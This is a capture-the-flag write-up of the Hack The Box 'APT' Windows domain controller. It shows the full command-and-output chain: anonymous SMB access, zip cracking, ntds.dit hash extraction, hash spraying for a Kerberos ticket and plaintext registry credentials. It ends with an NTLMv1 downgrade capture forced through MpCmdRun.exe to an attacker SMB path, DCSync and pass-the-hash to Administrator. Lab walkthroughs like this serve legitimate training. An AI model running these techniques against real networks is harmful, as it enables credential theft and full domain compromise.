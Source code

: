 ---
layout: menu
title: "HTB APT"
description: "10.10.10.213 | 50 pts"
header-img: "boxes/screenshots/49_unbalanced/unbalanced.png"
tags: [hackthebox, htb, boot2root, writeup, windows, APT, apt]
---

:filesdir: /boxes/files/66_APT/
:imagesdir: /boxes/screenshots/66_APT/
:page-liquid:
:source-highlighter: rouge

+++<h1 style="color:red">+++ HTB APT (10.10.10.213) +++</h1>+++

---

:toc: 
:toc-title: TABLE OF CONTENTS

---

== PART 1 : INITIAL RECON

=== 1.1 NMAP scan

____
[source,shell,subs="verbatim,quotes"]
----
$ nmap --min-rate 3000 -oN nmap-tcp.initial -p- -Pn -T4 -v 10.10.10.213
  
  Host is up.
  All 65535 scanned ports on 10.10.10.213 are filtered

  Read data files from: /usr/bin/../share/nmap
  Nmap done: 1 IP address (1 host up) scanned in 65.54 seconds

----
____

No open port was found but scanning using IPv6 might yield a different result. But first, the IPv6 of the machine needs to be determined. It could be done using +++<span style="color:orange">+++ link:https://github.com/mubix/IOXIDResolver[IOXIDResolver] +++</span>+++:

____
[source,shell,subs="verbatim,quotes"]
----
$ git clone https://github.com/mubix/IOXIDResolver.git

$ python3 IOXIDResolver/IOXIDResolver.py -t 10.10.10.213

  [*] Retrieving network interface of 10.10.10.213
  Address: apt
  Address: 10.10.10.213
  Address: dead:beef::b885:d62a:d679:573f
  Address: dead:beef::cda5:800b:148e:6594
----
____

Adding the recovered IPv6 addresses to the +++<span style="color:orange">+++ `*/etc/hosts*` +++</span>+++ file then attempting to scan using the new hostname:

____
[source,console,subs="verbatim,quotes"]
----
# The following lines are desirable for IPv6 capable hosts
::1     localhost ip6-localhost ip6-loopback
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
##dead:beef::b885:d62a:d679:573f	apt.htb##
----

[source,shell,subs="verbatim,quotes"]
----
$ nmap -6 --min-rate 3000 -oN nmap6-tcp.initial -p- -Pn -T4 -v apt.htb

  PORT      STATE SERVICE
  53/tcp    open  domain
  80/tcp    open  http
  135/tcp   open  msrpc
  389/tcp   open  ldap
  445/tcp   open  microsoft-ds
  464/tcp   open  kpasswd5
  593/tcp   open  http-rpc-epmap
  636/tcp   open  ldapssl
  5985/tcp  open  wsman
  9389/tcp  open  adws
  47001/tcp open  winrm

$ nmap -6 -oN nmap6-tcp -p 53,80,135,389,445,464,593,636,5985,9389,47001 -sC -sV -v apt.htb

  PORT      STATE SERVICE      VERSION
  53/tcp    open  domain       Simple DNS Plus
  80/tcp    open  http         Microsoft IIS httpd 10.0
  | http-methods: 
  |   Supported Methods: OPTIONS TRACE GET HEAD POST
  |_  Potentially risky methods: TRACE
  |_http-server-header: Microsoft-IIS/10.0
  |_http-title: Gigantic Hosting | Home
  135/tcp   open  msrpc        Microsoft Windows RPC
  389/tcp   open  ldap         Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
  | ssl-cert: Subject: commonName=apt.htb.local
  | Subject Alternative Name: DNS:apt.htb.local
  | Issuer: commonName=apt.htb.local
  | Public Key type: rsa
  | Public Key bits: 2048
  | Signature Algorithm: sha256WithRSAEncryption
  | Not valid before: 2020-09-24T07:07:18
  | Not valid after:  2050-09-24T07:17:18
  | MD5:   c743 dd92 e928 50b0 aa86 6f80 1b04 4d22
  |_SHA-1: f677 c290 98c0 2ac5 8575 7060 683d cdbc 5f86 5d45
  |_ssl-date: 2021-04-09T11:25:05+00:00; 0s from scanner time.
  445/tcp   open  microsoft-ds Windows Server 2016 Standard 14393 microsoft-ds (workgroup: HTB)
  464/tcp   open  kpasswd5?
  593/tcp   open  ncacn_http   Microsoft Windows RPC over HTTP 1.0
  636/tcp   open  ssl/ldap     Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
  | ssl-cert: Subject: commonName=apt.htb.local
  | Subject Alternative Name: DNS:apt.htb.local
  | Issuer: commonName=apt.htb.local
  | Public Key type: rsa
  | Public Key bits: 2048
  | Signature Algorithm: sha256WithRSAEncryption
  | Not valid before: 2020-09-24T07:07:18
  | Not valid after:  2050-09-24T07:17:18
  | MD5:   c743 dd92 e928 50b0 aa86 6f80 1b04 4d22
  |_SHA-1: f677 c290 98c0 2ac5 8575 7060 683d cdbc 5f86 5d45
  |_ssl-date: 2021-04-09T11:25:05+00:00; 0s from scanner time.
  5985/tcp  open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
  |_http-server-header: Microsoft-HTTPAPI/2.0
  |_http-title: Not Found
  9389/tcp  open  mc-nmf       .NET Message Framing
  47001/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
  |_http-server-header: Microsoft-HTTPAPI/2.0
  |_http-title: Not Found
  Service Info: Host: APT; OS: Windows; CPE: cpe:/o:microsoft:windows
  
  Host script results:
  |_clock-skew: mean: -11m59s, deviation: 26m49s, median: 0s
  | smb-os-discovery: 
  |   OS: Windows Server 2016 Standard 14393 (Windows Server 2016 Standard 6.3)
  |   Computer name: apt
  |   NetBIOS computer name: APT\x00
  |   Domain name: htb.local
  |   Forest name: htb.local
  |   FQDN: apt.htb.local
  |_  System time: 2021-04-09T12:24:49+01:00
  | smb-security-mode: 
  |   account_used: <blank>
  |   authentication_level: user
  |   challenge_response: supported
  |_  message_signing: required
  | smb2-security-mode: 
  |   2.02: 
  |_    Message signing enabled and required
  | smb2-time: 
  |   date: 2021-04-09T11:24:51
  |_  start_date: 2021-04-09T07:46:49

----
____

Open ports have now been determined and it seems like the machine is part of an Active Directory.

=== 1.2 Updating /etc/hosts

____
[source,console,subs="verbatim,quotes"]
----
# The following lines are desirable for IPv6 capable hosts
::1     localhost ip6-localhost ip6-loopback
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
dead:beef::b885:d62a:d679:573f	##apt.htb.local HTB.local## apt.htb
----
____

This might be essential when enumerating/connecting to the machine.

---

== PART 2 : PORT ENUMERATION

=== TCP PORT 80 : HTTP

image::80_landing_page.png[GiganticHosting]

=== TCP PORT 445 : SMB

Enumerating available shares from anonymous login:

____
[source,shell,subs="verbatim,quotes"]
----
$ smbclient -L \\\\apt.htb -N                 

  Anonymous login successful

  	  Sharename       Type      Comment
  	  ---------       ----      -------
	  ##backup          Disk##      
	  IPC$            IPC       Remote IPC
	  NETLOGON        Disk      Logon server share 
	  SYSVOL          Disk      Logon server share 
  apt.htb is an IPv6 address -- no workgroup available

$ smbclient \\\\apt.htb\\backup -N

  smb: \> dir
    .                                   D        0  Thu Sep 24 03:30:52 2020
    ..                                  D        0  Thu Sep 24 03:30:52 2020
    ##backup.zip##                          A 10650961  Thu Sep 24 03:30:32 2020
----
____

There is a +++<span style="color:orange">+++backup.zip+++</span>+++ file publicly available in the +++<span style="color:orange">+++backup+++</span>+++ share.

____
[source,shell,subs="verbatim,quotes"]
----
$ smbget -a -R smb://apt.htb/backup/backup.zip

  Using workgroup WORKGROUP, guest user
  smb://apt.htb/backup/backup.zip
  Downloaded 10.16MB in 37 seconds

$ unzip backup.zip

  Archive:  backup.zip
     creating: Active Directory/
  ##[backup.zip] Active Directory/ntds.dit password:##

$ fcrackzip -u -D -p /usr/share/wordlists/rockyou.txt backup.zip

  PASSWORD FOUND!!!!: pw == iloveyousomuch
----
____

The +++<span style="color:orange">+++backup.zip+++</span>+++ file was successfully downloaded from the file share but trying to extract the contents requires a password. Luckily, the password was susceptible to a dictionary attack which returned the password as +++<span style="color:orange">+++iloveyousomuch+++</span>+++. Successfully extracting the contents reveals the following files:

____
[source,shell,subs="verbatim,quotes"]
----
$ unzip backup.zip

  Archive:  backup.zip
  [backup.zip] Active Directory/ntds.dit password: ##iloveyousomuch##
    inflating: Active Directory/ntds.dit  
    inflating: Active Directory/ntds.jfm  
     creating: registry/
    inflating: registry/SECURITY       
    inflating: registry/SYSTEM

$ find . -type f -exec file {} + 2>/dev/null | grep -v backup

  ./Active Directory/ntds.dit: Extensible storage engine DataBase, version 0x620, checksum 0x6f146ad6, page size 8192, Windows version 10.0
  ./Active Directory/ntds.jfm: data
  ./registry/SECURITY:         MS Windows registry file, NT/2000 or above
  ./registry/SYSTEM:           MS Windows registry file, NT/2000 or above
----
____

There's an +++<span style="color:orange">+++ntds.dit+++</span>+++ file which is a database file storing Active Directory data especially user objects and password hashes; however, it's encrypted. Along with this are Windows Registry files.

---

=== PART 3: EXPLOITATION

==== 3.1 Search for valid users
____
[source,shell,subs="verbatim,quotes"]
----
$ impacket-secretsdump -ntds Active\ Directory/ntds.dit -system registry/SYSTEM -outputfile user_hashes.txt LOCAL

$ ls -l

  -rwxrwxrwx 1 root root   176132 xxx  x xx:xx  user_hashes.txt.ntds
  -rwxrwxrwx 1 root root      136 xxx  x xx:xx  user_hashes.txt.ntds.cleartext
  -rwxrwxrwx 1 root root   433995 xxx  x xx:xx  user_hashes.txt.ntds.kerberos
----
____

The extraction is only possible since the password encryption key used for +++<span style="color:orange">+++ntds.dit+++</span>+++ is encrypted using the BOOTKEY which could be found on the SYSTEM registry hive. Otherwise, if the SYSTEM hive is not available, the bootkey could be provided as an argument to +++<span style="color:orange">+++secretsdump+++</span>+++ module of impacket.

____
[source,shell,subs="verbatim,quotes"]
----
$ cat user_hashes.txt.ntds | head -n 1

  Administrator:500:aad3b435b51404eeaad3b435b51404ee:2b576acbe6bcfda7294d6bd18041b8fe:::

$ cat user_hashes.txt.ntds | head -n 1 | cut -d':' -f1

  Administrator

$ cat user_hashes.txt.ntds | cut -d':' -f1 > ../usernames.txt

$ ./kerbrute_linux_amd64 userenum -d htb.local --dc apt.htb.local -o kerbrute.txt -v usernames.txt
      __             __               __     
     / /_____  _____/ /_  _______  __/ /____ 
    / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
   / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
  /_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

  Version: v1.0.3 (9dad6e1) - xx/xx/xx - Ronnie Flathers @ropnop

  xxxx/xx/xx xx:xx:xx >  Using KDC(s):
  xxxx/xx/xx xx:xx:xx >  	apt.htb.local:88
  [...omitted...]

$ cat kerbrute.txt | grep VALID

  xxxx/xx/xx xx:xx:xx >  [+] VALID USERNAME:	 Administrator@htb.local
  xxxx/xx/xx xx:xx:xx >  [+] VALID USERNAME:	 APT$@htb.local
  xxxx/xx/xx xx:xx:xx >  [+] VALID USERNAME:	 henry.vinson@htb.local
----
____

The usernames were trimmed from the password hashes recovered in +++<span style="color:orange">+++ntds.dit+++</span>+++ via `*impacket-secretsdump*`. The usernames were then passed through `*kerbrute*` to check if they were still valid/active users in the domain controller. As for that, three users were found -- +++<span style="color:orange">+++Administrator+++</span>+++, +++<span style="color:orange">+++APT$+++</span>+++, and +++<span style="color:orange">+++henry.vinson+++</span>+++.

=== 3.2 Generating a Kerberos Ticket for henry.vinson

The hashes found for the valid users doesn't seem to work when attempting to login via winrm. Since this box seems to be part of an Active Directory, maybe forging a kerberos ticket will work for authenticating into the machine. 

____
[source,shell,subs="verbatim,quotes"]
----
$ cat user_hashes.txt.ntds | grep henry.vinson

  henry.vinson:3647:aad3b435b51404eeaad3b435b51404ee:2de80758521541d19cabba480b260e8f:::

$ cat user_hashes.txt.ntds | grep henry.vinson | awk -F':' '{printf "%s:%s\n",$3,$4}'

  aad3b435b51404eeaad3b435b51404ee:2de80758521541d19cabba480b260e8f

$ cat user_hashes.txt.ntds | awk -F':' '{printf "%s:%s\n",$3,$4}' | sort | uniq > ../hashes.txt

$ for i in $(cat hashes.txt); do echo $i; attempt=$(impacket-getTGT HTB.local/henry.vinson@apt.htb -hashes $i); if ! [[ $attempt == *"SessionError"* ]]; then echo "HASH FOUND: [$i]"; echo $attempt; break; fi; done

  [...omitted...]
  HASH FOUND: [aad3b435b51404eeaad3b435b51404ee:e53d87d42adaa3ca32bdb34a876cbffb]
  Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

  [*] Saving ticket in henry.vinson@apt.htb.ccache

$ klist -c henry.vinson@apt.htb.ccache                                                                         1 ⨯

  Ticket cache: FILE:henry.vinson@apt.htb.ccache
  Default principal: henry.vinson@HTB.LOCAL

  Valid starting       Expires              Service principal
  04/09/2021 16:34:58  04/10/2021 02:34:58  krbtgt/HTB.LOCAL@HTB.LOCAL
  	  renew until 04/10/2021 16:34:58
----
____

The shell script below was the one-liner used to brute force the generation of the ticket:
____
[source,sh,subs="verbatim,quotes"]
----
for i in $(cat hashes.txt); do 
    echo $i; 
    attempt=$(impacket-getTGT HTB.local/henry.vinson@apt.htb -hashes $i); 
    
    if ! [[ $attempt == *"SessionError"* ]]; then 
        echo "HASH FOUND: [$i]"; 
        echo $attempt;
        break; 
    fi; 
done
----
____

A password spray (in this case, hashes extracted from ntds.dit were used) was attempted for the user, +++<span style="color:orange">+++henry.vinson+++</span>+++, and one of the hashes (not his own) was found to be able to forge a krbtgt ticket. However, this still does not seem to work for authentication via WinRM.

=== 3.3 Dumping HKEY_USERS 

The HKU registry hive contains all configurations set for all active users.
____
[source,shell,subs="verbatim,quotes"]
----
$ export KRB5CCNAME=henry.vinson@apt.htb.ccache

$ env | grep KRB5
  
  KRB5CCNAME=henry.vinson@apt.htb.ccache

$ impacket-reg -k apt.htb.local query -keyName HKU -s > registry.txt
----
____

In this case, since there is already a cached ticket for henry.vinson, all contents from his user registry hive will be extracted.

____
[source,shell,subs="verbatim,quotes"]
----
$ cat registry.txt | grep -i -A5 -B5 -E 'henry$'

  [...omitted...]
  \Software\GiganticHostingManagementSystem\
	        ##UserName	REG_SZ	 henry.vinson_adm##
	        ##PassWord	REG_SZ	 G1#Ny5@2dvht##
  [...omitted...]
----
____

And within the extracted information are stored credentials for the deployed service, `*GiganticHostingManagementSystem*`.

---

== PART 4 : GENERATING A USER SHELL (henry.vinson_adm)

____
[source,shell,subs="verbatim,quotes"]
----
$ evil-winrm -i apt.htb -u henry.vinson_adm -p 'G1#Ny5@2dvht' --no-colors

PS C:\Users\henry.vinson_adm\Documents> whoami

  htb\henry.vinson_adm

PS C:\Users\henry.vinson_adm\Documents> ipconfig

  Windows IP Configuration


  Ethernet adapter Ethernet:

     Connection-specific DNS Suffix  . :
     IPv6 Address. . . . . . . . . . . : dead:beef::3d05:a1a8:4a51:c2fe
     IPv6 Address. . . . . . . . . . . : dead:beef::b885:d62a:d679:573f
     Link-local IPv6 Address . . . . . : fe80::3d05:a1a8:4a51:c2fe%5
     IPv4 Address. . . . . . . . . . . : 10.10.10.213
     Subnet Mask . . . . . . . . . . . : 255.255.255.0
     Default Gateway . . . . . . . . . : dead:beef::1
                                         fe80::250:56ff:feb9:75a0%5
                                         10.10.10.2

PS C:\Users\henry.vinson_adm\Documents> dir ..\Desktop

      Directory: C:\Users\henry.vinson_adm\Desktop


  Mode                LastWriteTime         Length Name
  ----                -------------         ------ ----
  -ar---       xx/xx/xxxx  xx:xx XX             34 user.txt
----
____

It seems like the reason why the other users cannot authenticate via WinRM even though a valid hash has been found is that they are not part of the +++<span style="color:orange">+++Remote Management Users+++</span>+++ group:

____
[source,shell,subs="verbatim,quotes"]
----
PS C:\Users\henry.vinson_adm\Documents> net localgroup "Remote Management Users"

  Alias name     Remote Management Users
  Comment        Members of this group can access WMI resources over management protocols (such as WS-Management via the Windows Remote Management service). This applies only to WMI namespaces that grant access to the user.

  Members

  -------------------------------------------------------------------------------
  henry.vinson_adm
----
____

---

== PART 5 : PRIVILEGE ESCALATION (henry.vinson_adm -> Administrator)

=== 5.1 The console history of henry.vinson_adm

Checking the console history of the current user:
____
[source,shell,subs="verbatim,quotes"]
----
PS C:\Users\henry.vinson_adm\Documents> cd ..\AppData

PS C:\Users\henry.vinson_adm\AppData> type Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
----
____
____
[source,ps1,subs="verbatim,quotes"]
----
$Cred = get-credential administrator
invoke-command -credential $Cred -computername localhost -scriptblock {Set-ItemProperty -Path "HKLM:\SYSTEM\CurrentControlSet\Control\Lsa" lmcompatibilitylevel -Type DWORD -Value 2 -Force}
----
____

The DWORD value for `*lmcompatibilitylevel*` was set to `*2*` and based on the Microsoft documentation for LAN Manager authentication level:

[cols="1,3,8"]
|===
|DWORD |Setting |Description

| 2
| Send NTLM response only
| Client devices use NTLMv1 authentication, and they use NTLMv2 session security if the server supports it. Domain controllers accept LM, NTLM, and NTLMv2 authentication.
|===

With this the machine should only repond with NTLMv1 hashes during authentication.

=== 5.2 Intercepting NTLMv1 Hashes

Setting up `*responder*` with a custom challeng, "1122334455667788"
____
[source,shell,subs="verbatim,quotes"]
----
$ cat /etc/responder/Responder.conf | grep -i challenge

  ; Custom challenge. 
  ; Use "Random" for generating a random challenge for each requests (Default)
  Challenge = 1122334455667788

$ sudo responder -I tun0 --lm

                                           __
    .----.-----.-----.-----.-----.-----.--|  |.-----.----.
    |   _|  -__|__ --|  _  |  _  |     |  _  ||  -__|   _|
    |__| |_____|_____|   __|_____|__|__|_____||_____|__|
                     |__|

             NBT-NS, LLMNR & MDNS Responder 3.0.2.0

    Author: Laurent Gaffie (laurent.gaffie@gmail.com)
    To kill this script hit CTRL-C

    [...omitted...]
    [+] Servers:
        [...omitted...]
        SMB server                 [ON]
    [...omitted...]

    [+] Poisoning Options:
        [...omitted...]
        Force LM downgrade         [ON]
    [...omitted...]

    [+] Generic Options:
        Responder NIC              [tun0]
        Responder IP               [10.10.14.11]
        Challenge set              [1122334455667788]
    [...omitted...]
----
____

Then forcing the target machine to force NTLM authentication:

____
[source,shell,subs="verbatim,quotes"]
----
PS C:\Users\henry.vinson_adm\AppData> cd "C:\ProgramData\Microsoft\Windows Defender\platform"

PS C:\ProgramData\Microsoft\Windows Defender\platform> dir


      Directory: C:\ProgramData\Microsoft\Windows Defender\platform


  Mode                LastWriteTime         Length Name
  ----                -------------         ------ ----
  d-----       11/10/2020  11:09 AM                4.18.2010.7-0
  d-----        3/17/2021   3:13 PM                4.18.2102.4-0

PS C:\ProgramData\Microsoft\Windows Defender\platform> cd 4.18.2010.7-0

C:\ProgramData\Microsoft\Windows Defender\platform\4.18.2010.7-0> .\MpCmdRun.exe -Scan -ScanType 3 -File \\10.10.14.11\file.txt
----
____

Looking back in the running `*responder*`, the NTLMv1 hash for the computer account was retrieved:

____
[source,console,subs="verbatim,quotes"]
----
[SMB] NTLMv1 Client   : 10.10.10.213
[SMB] NTLMv1 Username : HTB\APT$
[SMB] NTLMv1 Hash     : APT$::HTB:95ACA8C7248774CB427E1AE5B8D5CE6830A49B5BB858D384:95ACA8C7248774CB427E1AE5B8D5CE6830A49B5BB858D384:1122334455667788
[...omitted...]
----
____
____
[source,console,subs="verbatim,quotes"]
----
PS C:\Users\henry.vinson_adm\Documents> Get-ADComputer "APT"

  DistinguishedName : CN=APT,OU=Domain Controllers,DC=htb,DC=local
  DNSHostName       : apt.htb.local
  Enabled           : True
  Name              : APT
  ObjectClass       : computer
  ObjectGUID        : a78acf4d-42b5-49bc-9855-2389a80e726d
  SamAccountName    : APT$
  SID               : S-1-5-21-2993095098-2100462451-206186470-1001
  UserPrincipalName :
----
____


Going to link:https://crack.sh/get-cracking/[crack.sh] and submitting the value, +++<span style="color:orange">+++NTHASH:95ACA8C7248774CB427E1AE5B8D5CE6830A49B5BB858D384+++</span>+++, will return the following if the hash was successfully cracked:

____
[source,console,subs="verbatim,quotes"]
----
Token: $NETNTLM$1122334455667788$95ACA8C7248774CB427E1AE5B8D5CE6830A49B5BB858D384
Key: d167c3238864b12f5f82feae86a7f798
----
____

=== 5.3 Running impacket-secretsdump to obtain password hashes

____
[source,shell,subs="verbatim,quotes"]
----
$ impacket-secretsdump -hashes aad3b435b51404eeaad3b435b51404ee:d167c3238864b12f5f82feae86a7f798 'HTB.local/APT$@apt.htb'     

  Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

  [-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied 
  [*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
  [*] Using the DRSUAPI method to get NTDS.DIT secrets
  ##Administrator:500:aad3b435b51404eeaad3b435b51404ee:c370bddf384a691d811ff3495e8a72e2:::##
  Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
  krbtgt:502:aad3b435b51404eeaad3b435b51404ee:738f00ed06dc528fd7ebb7a010e50849:::
  DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
  henry.vinson:1105:aad3b435b51404eeaad3b435b51404ee:e53d87d42adaa3ca32bdb34a876cbffb:::
  henry.vinson_adm:1106:aad3b435b51404eeaad3b435b51404ee:4cd0db9103ee1cf87834760a34856fef:::
  APT$:1001:aad3b435b51404eeaad3b435b51404ee:d167c3238864b12f5f82feae86a7f798:::
  [*] Kerberos keys grabbed
  Administrator:aes256-cts-hmac-sha1-96:72f9fc8f3cd23768be8d37876d459ef09ab591a729924898e5d9b3c14db057e3
  Administrator:aes128-cts-hmac-sha1-96:a3b0c1332eee9a89a2aada1bf8fd9413
  Administrator:des-cbc-md5:0816d9d052239b8a
  krbtgt:aes256-cts-hmac-sha1-96:b63635342a6d3dce76fcbca203f92da46be6cdd99c67eb233d0aaaaaa40914bb
  krbtgt:aes128-cts-hmac-sha1-96:7735d98abc187848119416e08936799b
  krbtgt:des-cbc-md5:f8c26238c2d976bf
  henry.vinson:aes256-cts-hmac-sha1-96:63b23a7fd3df2f0add1e62ef85ea4c6c8dc79bb8d6a430ab3a1ef6994d1a99e2
  henry.vinson:aes128-cts-hmac-sha1-96:0a55e9f5b1f7f28aef9b7792124af9af
  henry.vinson:des-cbc-md5:73b6f71cae264fad
  henry.vinson_adm:aes256-cts-hmac-sha1-96:f2299c6484e5af8e8c81777eaece865d54a499a2446ba2792c1089407425c3f4
  henry.vinson_adm:aes128-cts-hmac-sha1-96:3d70c66c8a8635bdf70edf2f6062165b
  henry.vinson_adm:des-cbc-md5:5df8682c8c07a179
  APT$:aes256-cts-hmac-sha1-96:4c318c89595e1e3f2c608f3df56a091ecedc220be7b263f7269c412325930454
  APT$:aes128-cts-hmac-sha1-96:bf1c1795c63ab278384f2ee1169872d9
  APT$:des-cbc-md5:76c45245f104a4bf
  [*] Cleaning up... 
----
____

=== 5.4 Shell as Administrator

____
[source,shell,subs="verbatim,quotes"]
----
$ evil-winrm -i apt.htb -u Administrator -H c370bddf384a691d811ff3495e8a72e2 --no-colors

PS C:\Users\Administrator\Documents> whoami

  htb\administrator

PS C:\Users\Administrator\Documents> dir ..\Desktop


      Directory: C:\Users\Administrator\Desktop


  Mode                LastWriteTime         Length Name
  ----                -------------         ------ ----
  -ar---        4/10/2021   9:11 AM             34 root.txt


PS C:\Users\Administrator\Documents> ipconfig

  Windows IP Configuration


  Ethernet adapter Ethernet:

     Connection-specific DNS Suffix  . :
     IPv6 Address. . . . . . . . . . . : dead:beef::3d05:a1a8:4a51:c2fe
     IPv6 Address. . . . . . . . . . . : dead:beef::b885:d62a:d679:573f
     Link-local IPv6 Address . . . . . : fe80::3d05:a1a8:4a51:c2fe%5
     IPv4 Address. . . . . . . . . . . : 10.10.10.213
     Subnet Mask . . . . . . . . . . . : 255.255.255.0
     Default Gateway . . . . . . . . . : dead:beef::1
                                         fe80::250:56ff:feb9:75a0%5
                                         10.10.10.2
----
____

---
---

== REFERENCES
- https://stealthbits.com/blog/extracting-password-hashes-from-the-ntds-dit-file/
- https://adsecurity.org/?p=2398
- https://www.lifewire.com/hkey-users-2625903
- https://docs.microsoft.com/en-us/windows/security/threat-protection/security-policy-settings/network-security-lan-manager-authentication-level 